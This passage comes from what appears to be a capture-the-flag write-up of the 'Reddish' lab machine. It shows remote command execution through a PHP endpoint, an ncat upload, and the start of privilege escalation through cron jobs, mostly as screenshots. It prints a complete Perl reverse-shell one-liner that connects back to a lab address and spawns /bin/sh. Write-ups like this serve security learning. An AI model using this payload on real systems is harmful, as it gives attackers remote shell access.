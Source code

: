 ![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Reddish%20Box%20c238084c8dce4904a0b15346c2be4c32/Untitled%2021.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Reddish%20Box%20c238084c8dce4904a0b15346c2be4c32/Untitled%2021.png)

→ We have RCE :
[http://172.19.0.3/f187a0ec71ce99642e4f0afbd441a68b/redis.php?cmd=id](http://172.19.0.3/f187a0ec71ce99642e4f0afbd441a68b/redis.php?cmd=id)

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Reddish%20Box%20c238084c8dce4904a0b15346c2be4c32/Untitled%2022.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Reddish%20Box%20c238084c8dce4904a0b15346c2be4c32/Untitled%2022.png)

⇒ Getting shell :

→ As we know this machine is on a different network so we will have to start a listener on nodered machine 

→ Uploaded ncat same way as msfvenom shell by base64 encoding :

→ Now lets get an shell :

`perl -e 'use Socket;$i="172.19.0.4";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'`

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Reddish%20Box%20c238084c8dce4904a0b15346c2be4c32/Untitled%2023.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Reddish%20Box%20c238084c8dce4904a0b15346c2be4c32/Untitled%2023.png)

### Privilege Escalation to root on 2nd machine :

⇒ Checking /etc/cron.d for cronjobs :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Reddish%20Box%20c238084c8dce4904a0b15346c2be4c32/Untitled%2024.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Reddish%20Box%20c238084c8dce4904a0b15346c2be4c32/Untitled%2024.png)
